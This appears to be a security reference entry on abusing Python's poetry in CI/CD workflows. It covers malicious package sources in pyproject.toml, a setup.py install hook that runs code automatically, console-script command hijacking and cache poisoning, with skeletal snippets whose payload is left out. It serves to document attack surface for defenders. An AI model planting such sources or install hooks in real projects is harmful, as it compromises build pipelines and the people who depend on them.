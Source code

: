 ```yaml
---
title: poetry
tags:
- cli
- input-file
- eval-py
references:
- https://python-poetry.org/docs/repositories/
- https://python-poetry.org/docs/configuration/
files: [pyproject.toml, setup.py]
---
```

# poetry 
`poetry` is a modern tool for Python dependency management and packaging. It uses the `pyproject.toml` file as its central configuration.

## pyproject.toml

When a workflow executes `poetry install`, it resolves and installs dependencies based on the contents of `pyproject.toml` and the `poetry.lock` file. An attacker who can modify `pyproject.toml` can control where packages are downloaded from and what code is executed.

# Source Manipulation (Index URL)

An attacker can modify `pyproject.toml` to add a new package source that points to a malicious, attacker-controlled registry. This is done using the [[tool.poetry.source]] table.

```toml
# 'pyproject.toml' file
[[tool.poetry.source]]
url = "https://super_attacker_controlled_registry"
name = "super_registry"
```

# Malicious post-install script with setup.py

`pyproject.toml` can be configured to install a dependency from a local directory. An attacker can set the path key to point to a malicious package within the repository, which will be installed when `poetry install` is run. 

When poetry install installs a dependency (either from a malicious repository or a local path), it will execute the `setup.py` of that dependency if it is built with `setuptools`.

An attacker can craft a malicious dependency with a `setup.py` file defining a malicious post-install script. This code is executed automatically and immediately during the `poetry install` process, leading to arbitrary python code execution.

```py
# setup.py
from setuptools import setup
from setuptools.command.install import install

class CustomInstallCommand(install):
    """Customized setuptools install command."""
    def run(self):
        # Run the standard install
        install.run(self)
        
        # After installation, run the malicious post-install script
        ...

setup(
    name='poesie',
    version='0.1.0',
    py_modules=['poesie'],
    cmdclass={
        'install': CustomInstallCommand,
    },
)
```


# Command Hijacking

`poetry` can define console scripts in `pyproject.toml` using the [tool.poetry.scripts] or the standard [project.scripts] section. When `poetry install` is run, these scripts are created inside the virtual environment's bin directory.

An attacker can use this to overwrite a legitimate poetry command that might be used later in the workflow. This command will be executed when `poetry run <cmd>` is run. 

```toml
[project.scripts]
flake8 = "super_nice_func.ever:very_pretty"
```

In this example, `poetry run flake8` will execute the malicious python script defined in `super_nice_func/ever.py`. 

# Cache Poisoning

The attacks described present a significant threat in CI/CD environments that share a dependency cache between workflows. Poetry maintains its own cache of downloaded packages.

If a vulnerable workflow (e.g., one with a malicious source in `pyproject.toml`) runs, it populates the shared cache with poisoned packages from the attacker's registry. Subsequent, non-vulnerable workflows that share this cache may retrieve the malicious package from the cache instead of downloading it from the legitimate PyPI, thereby compromising those workflows as well.